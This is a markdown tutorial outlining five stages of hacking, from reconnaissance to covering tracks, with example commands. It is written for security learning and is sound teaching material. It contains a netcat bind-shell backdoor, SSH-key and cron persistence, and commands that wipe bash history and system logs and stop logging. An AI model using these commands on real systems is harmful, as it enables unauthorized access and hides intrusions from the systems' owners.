 # Hacking Methodology

##  The 5 Stages of Hacking
Hacking follows a structured methodology to assess and exploit security weaknesses. Below are the **five key stages** of hacking, from reconnaissance to covering tracks.

---

## 1️ Passive & Active Reconnaissance
### **Passive Reconnaissance**
- Involves gathering **information** about the target without directly interacting with it.
- **Techniques:**
  - WHOIS lookups
  - Google dorking
  - Social media profiling
  - DNS enumeration
  - Public document metadata analysis (e.g., FOCA tool)

### **Active Reconnaissance**
- Directly interacts with the target to gather information.
- **Techniques:**
  - **Ping sweeps** (`nmap -sn <target>`)
  - **Port scanning** (`nmap -sS <target>`)
  - **Service & version detection** (`nmap -sV <target>`)
  - **OS fingerprinting** (`nmap -O <target>`)

---

## 2️ Enumeration
Enumeration is the process of extracting detailed system **information**, such as usernames, shares, and services, to identify potential entry points.

### **Common Enumeration Techniques:**
- **NetBIOS Enumeration:** `nmblookup -A <target>`
- **SMB Enumeration:** `enum4linux -a <target>`
- **SNMP Enumeration:** `snmpwalk -v 2c -c public <target>`
- **DNS Zone Transfers:** `dig axfr @<target>`
- **User Enumeration on Web Apps:** Using `wfuzz` or `gobuster` for directory and file brute-forcing.

---

## 3️ Gaining Access
This phase involves **exploiting vulnerabilities** to gain unauthorized access.

### **Common Attack Vectors:**
- **Exploiting unpatched vulnerabilities** (`searchsploit <service>` to find exploits)
- **Password attacks** (Brute-force using `hydra` or `john`)
- **Web application attacks** (SQL Injection, XSS, CSRF)
- **Phishing attacks** (Social engineering to gain credentials)
- **Privilege escalation** (`sudo -l` or `linpeas.sh` for misconfigurations)

---

## 4️ Maintaining Access
Once access is gained, the next step is ensuring continued access for later use.

### **Persistence Techniques:**
- **Creating a backdoor:** Using Netcat:
  ```bash
  nc -lvnp 4444 -e /bin/bash
  ```
- **Adding SSH keys for persistence:**
  ```bash
  echo "your-public-key" >> ~/.ssh/authorized_keys
  ```
- **Installing rootkits:** (e.g., `Trojans` or `keyloggers` to maintain control)
- **Setting up scheduled tasks or cron jobs:**
  ```bash
  crontab -e
  @reboot /path/to/backdoor.sh
  ```

---

## 5️ Covering Tracks
To avoid detection, hackers remove traces of their activities.

### **Log Clearing & Evidence Removal:**
- **Clearing Bash History:**
  ```bash
  history -c && history -w
  ```
- **Clearing System Logs:**
  ```bash
  echo "" > /var/log/auth.log
  echo "" > /var/log/syslog
  ```
- **Disabling Logging:**
  ```bash
  service rsyslog stop
  ```
- **Hiding processes using `rootkits`** (e.g., `libprocesshider`)

---

##  Conclusion
Understanding the **five stages of hacking** is essential for recognizing and mitigating potential threats. Ethical professionals use these concepts to strengthen security and protect systems from real-world attacks.


